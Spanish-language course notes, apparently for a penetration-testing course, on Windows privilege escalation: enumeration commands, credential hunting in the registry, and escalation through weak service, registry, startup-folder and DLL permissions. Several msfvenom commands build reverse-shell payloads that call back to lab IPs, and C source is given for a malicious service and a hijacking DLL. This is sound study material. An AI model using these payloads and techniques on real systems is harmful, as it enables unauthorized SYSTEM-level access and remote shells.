

# Windows Privilege Escalation <!-- omit from toc -->

Notas tomadas durante el curso.

## Índice <!-- omit from toc -->

- [Initial Enumeration](#initial-enumeration)
  - [System Enumeration](#system-enumeration)
  - [User Enumeration](#user-enumeration)
  - [Network Enumeration](#network-enumeration)
  - [Password Hunting](#password-hunting)
  - [AV and Firewall Enumeration](#av-and-firewall-enumeration)
- [Exploring Automated Tools](#exploring-automated-tools)
- [Escalation Paths](#escalation-paths)
  - [Kernel Exploits](#kernel-exploits)
  - [Passwords](#passwords)
  - [Windows Subsystem for Linux](#windows-subsystem-for-linux)
  - [Token Impersonation](#token-impersonation)
    - [What are tokens?](#what-are-tokens)
    - [Identificación](#identificación)
  - [getsystem](#getsystem)
  - [RunAs](#runas)
  - [Windows Autologin](#windows-autologin)
  - [Registry](#registry)
    - [Autorun](#autorun)
    - [AlwaysInstallElevated](#alwaysinstallelevated)
    - [Service Escalation `regsvc`](#service-escalation-regsvc)
  - [Executable Files](#executable-files)
  - [Startup Applications](#startup-applications)
  - [DLL Hijacking](#dll-hijacking)
  - [Service Permissions (Paths)](#service-permissions-paths)
    - [Binary Paths](#binary-paths)
    - [Unquoted Service Paths](#unquoted-service-paths)
  - [CVE-2019-1388](#cve-2019-1388)
- [Recursos y referencias](#recursos-y-referencias)

## Initial Enumeration

### System Enumeration

```powershell
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic qfe get Caption,Descrption,HotFixID,InstalledON # Parches
wmic logicaldisk get Caption,Descrption,ProviderName # Unidades extraíbles
```

### User Enumeration

```powershell
whoami
whoami /priv
whoami /groups
whoami /all
net user
net user <user>
net localgroup
net localgroup <group>
```

### Network Enumeration

```powershell
ipconfig
ipconfig /all
arp -a # Tablas arp (útil para laboratorios)
route print # Tabla de rutas
netstat -ano # Puertos abiertos
```

### Password Hunting

```powershell
findstr /si <patron> *.txt *.ini *.config
```

**Verificar guías dadas (PayloadsAllTheThings)**

### AV and Firewall Enumeration

```powershell
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

## Exploring Automated Tools

| Ejecutables | PowerShell | Otras |
|---|---|---|
| [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock) | [windows-exploit-suggester.py (local)](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) |
| [Seatbelt.exe (compilar)](https://github.com/GhostPack/Seatbelt) | [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) | [Exploit Suggester (Metasploit)](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) |
| [Watson.exe (compilar)](https://github.com/rasta-mouse/Watson) | [jaws-enum.ps1](https://github.com/411Hall/JAWS) |  |
| [SharpUp.exe (compilar)](https://github.com/GhostPack/SharpUp) |  |  |

## Escalation Paths

### Kernel Exploits

Hacer enumeración con cualquiera de las herremientas antes mencionadas y se debería ver información si es vulnerable a algún exploit de kernel, posteriormente se puede buscar en esta lista o el id en específico como tal, ejemplo: `MS10-015`.

[Github - Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Passwords

**Verificar guías dadas**

### Windows Subsystem for Linux

**Verificar guías dadas**

### Token Impersonation

#### What are tokens?

Llaves temporales que permiten el acceso a un sistema/red sin tener que proveer las credenciales cada que se tiene acceso a un archivo. *Como las cookies para las computadoras*.

Existen dos tipos:
- Delegate - Creado para loguearse a una máquina o hacer uso del escritorio remoto.
- Impersonate - "no-interactive" tal como el montaje de una unidad de almacenamiento en red o un script de logueo de dominio.

#### Identificación

`whoami /priv`



Permisos: `SeAssignPrimaryToken` y `SeImpersonatePrivilege`

### getsystem

Dentro de una sesión de meterpreter ejecutar `getsystem` el cuál hace uso de de diferentes métodos para escalar los privilegios.

Se encuentra [aquí un artículo](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/) para ver detalles.

### RunAs

Ejecutar `cmdkey /list` para verificar la existencia de credenciales guardadas.

```bash
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Posteriormente usar `runas` con la opción `savecred` para usar las credenciales guardadas. Ejemplo:

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

*[Más info en PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)*


### Windows Autologin

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
``` 

### Registry

#### Autorun

Buscar directorios que cuenten con `FilePerms: Everyone [AllAccess]`, si se ejecuta un programa, se puede sobreescribir el programa.


#### AlwaysInstallElevated

```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

# Generar msi
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f msi -o setup.msi

# Ejecutar
msiexec /quiet /qn /i C:\Temp\setup.msi
```

#### Service Escalation `regsvc`

```powershell
powershell.exe -ep bypass
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

Si el usuario pertenece a `NT AUTHORITY\INTERACTIVE` y tiene el permiso de `FullControl` en el registro, es explotable. Ejemplo:

```powershell
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl # Permiso
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```

Modificar de **windows_service.c** (código fuente a continuación) el payload de system y compilar:

```bash
sudo apt install gcc-mingw-w64
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

Copiar `x.exe` a windows y ejecutar:

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
```

Código fuente de **windows_service.c**.

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 
```

### Executable Files

Si se cuenta con `File Permissions: Everyone [AllAccess]` en el binario de un servicio, se puede modificar el binario e inicar el servicio.


```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f exe -o filepermservice.exe

# Remplazar binario e iniciar servicio en windows
sc start filepermsvc
```

### Startup Applications

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Si el comando devuelve `BUILTIN\Users:(F)` asociando "full access" con la F es explotable. Documentación acerca de [icacls y la representación de los permisos](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).

```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f exe -o payload.exe
```

Colocar `payload.exe` en `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` y esperar el logueo del administrador o reinicio.

### DLL Hijacking

Requisitos:

- Se requiere encontrar un proceso que ejecute con otros privilegios (movimiento lateral) al cuál le falte una dll.
- Tener permisos de escritura en un folder donde será buscada la dll (probablemente el directorio del ejecutable u otro dentro del path del sistema).

WinPEAS verificará si se cuenta con permisos de escritura en algún folder que esté en `PATH` del sistema. Otras herramientas como `Powersploit` pueden identificar las vulnerabilidades con las funciones `Find-ProcessDLLHijack`, `Find-PathDLLHijack` and `Write-HijackDll`.


Se genera una dll y se ubica esta en el folder identificado usando el formato de metasploit: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

O una compilada:

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

### Service Permissions (Paths)

#### Binary Paths

WinPEAS puede identificar permisos de modificación en servicios.


Una vez identificado se puede cambiar y verificar con:

```powershell
# Cambio de valor de binpath
C:\Users\user>sc config daclsvc binpath= "c:\temp\exp.exe"
sc config daclsvc binpath= "c:\temp\exp.exe"
[SC] ChangeServiceConfig SUCCESS

# Validación de cambio
C:\Users\user>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "c:\temp\exp.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Iniciar servicio
sc start daclsvc
```

#### Unquoted Service Paths

En la sección de información de servicios, WinPEAS puede identificar servicios que se pueden iniciar manualmente y se encuentran mal configurados sin comillas en los servicios.


Al identificarse se puede generar payload con `msfvenom` y guardar en la ruta sin comillas como:

```powershell
C:\Program Files\Unquoted Path Service\common.exe
```

Al iniciar el servicio, se ejecutará el binario:

```powershell
sc start unquotedsvc
```

### CVE-2019-1388

Se puede realizar un bypass al UAC mediante este CVE, identificado por WinPEAS mediante la instalación de parches KB.


https://github.com/jas502n/CVE-2019-1388

## Recursos y referencias

- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html).
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).
- [Absolomb's Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/).
- [Sushant747's Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html).
- [TCM Windows Priv Esc Course Repo](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources).
- [Offensive Security - Fun with Incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/).
- [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/).
- [CobaltStrike - What happens when I type getsystem?](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/).

